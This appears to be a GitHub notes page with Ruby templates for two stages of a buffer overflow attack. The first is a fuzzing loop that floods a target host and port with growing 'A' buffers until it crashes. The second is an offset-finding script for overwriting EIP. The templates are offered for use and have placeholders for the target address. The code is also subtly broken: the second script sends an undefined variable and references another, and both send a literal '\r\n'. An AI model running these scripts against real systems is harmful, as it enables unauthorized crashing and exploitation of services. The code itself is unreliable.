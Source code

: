 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
### Finding Offset
```Ruby
require 'socket'

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```    
